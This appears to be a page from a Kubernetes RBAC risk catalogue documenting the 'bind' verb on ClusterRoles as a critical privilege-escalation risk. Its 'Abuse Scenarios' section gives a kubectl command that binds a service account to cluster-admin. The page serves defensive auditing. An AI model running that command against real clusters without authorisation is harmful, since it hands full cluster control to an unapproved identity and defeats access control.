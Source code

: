 ```yaml
---
id: 1032
title: "Bind ClusterRoles to identities (bind verb)"
description: "Permits using the 'bind' verb on ClusterRoles (or Roles). This allows a user to create a ClusterRoleBinding (or RoleBinding) that grants the permissions of a specific role to another user, group, or service account, potentially leading to privilege escalation if a highly privileged role is bound."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                                   |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1032                                                                                                                                    |
| Name                    | Bind ClusterRoles to identities (bind verb)                                                                                             |
| Risk Category           | Elevation of Privilege                                                                                                                  |
| Risk Level              | {{< risk Critical >}}                                                                                                                   |
| Role Type               | ClusterRole                                                                                                                             |
| API Groups              | rbac.authorization.k8s.io                                                                                                               |
| Resources               | clusterroles                                                                                                                            |
| Risky Verb Combinations | [bind]                                                                                                                                  |
| Tags                    | {{< tag "BindingToPrivilegedRole" >}} {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Permits using the 'bind' verb on ClusterRoles (or Roles). This allows a user to create a ClusterRoleBinding (or RoleBinding) that grants the permissions of a specific role to another user, group, or service account, potentially leading to privilege escalation if a highly privileged role is bound.

## Abuse Scenarios

1. Create a ClusterRoleBinding to grant 'cluster-admin' to a service account, leveraging the 'bind' permission on the 'cluster-admin' ClusterRole.

```bash
# This command will succeed if the user has 'bind' on the 'cluster-admin' ClusterRole.
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: bind-to-cluster-admin
subjects:
- kind: ServiceAccount
  name: <serviceaccount-name>
  namespace: <namespace>
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
EOF
# Example: kubectl create -f - <<EOF ... EOF (bind 'default' SA in 'default' namespace to cluster-admin)

```
